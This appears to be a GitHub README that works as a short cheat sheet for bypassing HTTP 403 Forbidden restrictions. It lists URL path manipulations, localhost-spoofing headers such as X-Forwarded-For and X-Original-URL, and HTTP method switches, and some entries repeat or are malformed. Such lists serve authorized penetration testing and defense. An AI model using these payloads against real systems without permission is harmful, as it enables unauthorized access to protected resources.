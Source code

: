 # Bypass-403
Bypassing 403 Forbidden: Technique and Methodology

## URL Manipulation
Add this in paths of the URL and the file which is forbidden
- /*-
- /%2f/
- /./
- /
- /*/
- {%2e}
- {%2f}
- { /*, /./}


## Headers Manipulation
Try to add Add this custom url
* X-Custom-IP-Authorization: 127.0.0.1
* X-Forwarded-For: 127.0.0.1
* X-Forward-For: 127.0.0.1
* X-Remote-IP: 127.0.0.1
* X-Originating-IP: 127.0.0.1
* X-Remote-Addr: 127.0.0.1
* X-Client-IP: 127.0.0.1
* X-Real-IP: 127.0.0.1
- X-Originating-IP: 127.0.0.1
- X-Forwarded-For: 127.0.0.1
- X-Forwarded: 127.0.0.1
- Forwarded-For: 127.0.0.1
- X-Remote-IP: 127.0.0.1
- X-Remote-Addr: 127.0.0.1
- X-ProxyUser-Ip: 127.0.0.1
- X-Original-URL: 127.0.0.1
- Client-IP: 127.0.0.1
- True-Client-IP: 127.0.0.1
- Cluster-Client-IP: 127.0.0.1
- X-ProxyUser-Ip: 127.0.0.1
- Host: localhost: 127.0.0.1


## Change requested method

GET → POST, GET → TRACE, GET → PUT, GET → OPTIONS
